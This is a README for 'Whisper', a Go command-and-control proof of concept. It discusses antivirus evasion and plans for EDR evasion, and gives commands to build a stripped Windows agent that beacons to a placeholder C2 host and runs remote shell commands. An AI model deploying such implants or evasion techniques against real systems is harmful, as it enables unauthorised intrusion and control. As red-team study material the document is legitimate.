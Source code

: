 # Whisper C2 Framework

![Status](https://img.shields.io/badge/status-proof%20of%20concept-brightgreen) [![Go Version](https://img.shields.io/badge/go-1.18+-00ADD8.svg)](https://go.dev/) [![License](https://img.shields.io/badge/license-MIT-blue.svg)](LICENSE)

Whisper is a lightweight, TCP-based Command and Control (C2) framework built entirely in Go. It was developed for educational purposes to explore the fundamentals of C2 architecture and the challenges of evading modern security solutions.

This project serves as a practical tool for researchers, students, and cybersecurity professionals to understand offensive tooling in a controlled, ethical environment.

---

## ⚠️ Disclaimer

This project is intended **solely for educational and research purposes**. The goal is to study adversarial techniques to build better defensive strategies. The author is not responsible for any misuse or damage. **Use this tool ethically and only on systems you have explicit permission to test.**

---

## 🧠 Core Concepts: Bypassing Static vs. Dynamic Analysis

A key goal of this project is to understand how security products detect threats. The current version of Whisper can remain undetected by some basic antivirus (AV) solutions for two main reasons:

1.  **Unique Signature:** As a custom-coded tool, its file hash is not in any AV vendor's database of known malware. It bypasses **static analysis** because it has no recognized malicious signature.

2.  **Simple Behavior:** The agent's current actions (making a TCP connection, running a command) are not inherently malicious enough to trigger alarms in AV products that are not performing aggressive **behavioral analysis**.

The real challenge, and the future goal of this project, is to evade **Endpoint Detection and Response (EDR)** systems. An EDR actively monitors system behavior and would likely flag Whisper for:

* An unknown, unsigned program making a persistent network connection.
* An unusual parent-child process relationship (e.g., `agent.exe` spawning `whoami.exe`).

The roadmap below outlines the features needed to bypass this more advanced, behavior-based detection.

---

## ✨ Current Features

* **TCP-Based C2 Channel**: Simple and direct network communication between the agent and server.
* **Remote Command Execution**: Execute shell commands on a target machine via the agent.
* **Asynchronous Command Handling**: Built with Go's goroutines to manage multiple agents without blocking.
* **Cross-Platform Portability**: Easily cross-compile the agent for Windows, Linux, and macOS.

---

## 🗺️ The Road to True Stealth: Project Roadmap

The following features are planned to evolve Whisper from a simple C2 into a framework capable of evading more sophisticated, behavior-based security solutions.

* [X] **Encrypted C2 Channels (TLS):** Encrypt all traffic between the agent and server to prevent network inspection and hide commands.
* [X] **Malleable C2 Profiles:** Disguise C2 traffic to look like legitimate web traffic (e.g., HTTP/S POST requests) to blend in with normal network activity.
* [X] **Sleep Obfuscation & Jitter:** Introduce randomized delays (jitter) to the agent's check-ins to make its beaconing pattern less predictable and harder to detect.

---


## 🛠️ Getting Started

### Prerequisites

* [Go](https://go.dev/doc/install) (Version 1.18 or higher)
* A basic understanding of networking and command-line interfaces.

### Installation and Setup

First, clone the repository to your local machine:


    git clone https://github.com/rahdian-abdi/whisper.git
    cd whisper


### **Option 1: Raw TCP Mode** 🔌

This is the simplest mode, using a direct, unencrypted TCP connection.

#### **Server Setup (Raw TCP)**

1.  **Navigate to the Server Directory:**
    ```bash
    cd server/rawtcp
    ```

2.  **Run the Server:**
    The server will start listening for incoming connections.
    ```bash
    go run main.go
    ```
    *(Note: For production use, build the binary first with `go build .`)*

#### **Agent Setup (Raw TCP)**

1.  **Navigate and Configure:**
    In a new terminal, go to the agent's directory.
    ```bash
    cd agent/rawtcp
    ```
    Open `main.go` and set the `c2Host` and `c2Port` variables to your server's IP and port.
    ```go
    // agent/rawtcp/main.go
    var (
        c2Host = "YOUR_C2_IP_HERE"
        c2Port = "8080"
    )
    ```

2.  **Build the Agent:**
    Compile the agent executable. This command creates a Windows binary and strips debug symbols to reduce its size.
    ```bash
    GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o agent_rawtcp.exe .
    ```

---

### **Option 2: HTTPS Mode (Malleable C2)** 🌐

This mode uses HTTPS for encrypted communication, making it stealthier.

#### **Server Setup (HTTPS)**

1.  **Navigate to the Server Directory:**
    ```bash
    cd server/https
    ```

2.  **Generate TLS Certificates:**
    The server requires a TLS certificate and key. The provided `openssl.conf` simplifies this process.
    ```bash
    # Create the directory to store certificates
    mkdir certs

    # Generate the certificate and key
    openssl req -new -x509 -config openssl.conf -keyout certs/c2.key -out certs/c2.crt -days 365 -nodes
    ```
    *Note: You can edit `openssl.conf` to change certificate details like the IP or domain name.*

    You can find the minimal setup of the `openssl.conf` below
    ```
    [req]
    distinguished_name = req_distinguished_name
    x509_extensions = v3_req
    prompt = no

    [req_distinguished_name]
    CN = YOUR_C2_SERVER_IP_HERE

    [v3_req]
    keyUsage = keyEncipherment, dataEncipherment
    extendedKeyUsage = serverAuth
    subjectAltName = @alt_names

    [alt_names]
    IP.1 = YOUR_C2_SERVER_IP_HERE
    ```

3.  **Run the Server:**
    ```bash
    go run main.go
    ```

#### **Agent Setup (HTTPS)**

1.  **Navigate and Configure:**
    In a new terminal, go to the agent's directory.
    ```bash
    cd agent/https
    ```
    Open `main.go` and set the `c2URL` variable to your server's full URL.
    ```go
    // agent/https/main.go
    c2URL := "https://YOUR_C2_IP_OR_DOMAIN"
    ```

2.  **Build the Agent:**
    Compile the agent executable for a Windows target.
    ```bash
    GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o agent_https.exe .
    ```

---

## 🖥️ Usage

1.  **Start Your Chosen Server:** Follow the setup steps to run either the `rawtcp` or `https` server.
2.  **Deploy the Agent:** Transfer the corresponding compiled agent (`agent_rawtcp.exe` or `agent_https.exe`) to a target machine you are authorized to test on and execute it.
3.  **Interact with the Agent:** When the agent connects, the server terminal will notify you and prompt for a command.
    ```
    [*] Whisper HTTPS C2 listening on https://0.0.0.0:443
    [whisper]> whoami
    [*] Sent to Agent: whoami

    [Agent Output] desktop-cej30mv\john
    ```

---

## 🤝 Contributing

Contributions, issues, and feature requests are welcome! Feel free to check the issues page for this repository to contribute.

---

## 📜 License

Distributed under the MIT License. See `LICENSE` for more information.